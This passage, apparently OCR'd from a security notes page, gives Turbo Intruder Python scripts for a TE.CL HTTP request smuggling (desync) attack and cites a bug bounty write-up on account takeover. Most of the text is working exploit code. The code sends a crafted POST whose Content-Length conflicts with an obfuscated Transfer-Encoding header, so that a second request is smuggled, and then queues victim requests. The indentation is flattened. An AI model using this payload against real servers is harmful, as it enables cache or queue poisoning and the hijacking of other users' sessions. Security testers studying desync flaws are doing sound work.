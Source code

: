 ```python
for i in range(14):
engine.queue(victim)
time.sleep(0.05)

def handleResponse(req, interesting):
table.add(req)
```

### TE.CL

Sa: [https://hipotermia.pw/bb/http-desync-account-takeover](https://hipotermia.pw/bb/http-desync-account-takeover)

```python
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()

attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
engine.queue(attack)

victim = '''GET / HTTP/1.1
Host: xxx.com

'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)


def handleResponse(req, interesting):
table.add(req)
```
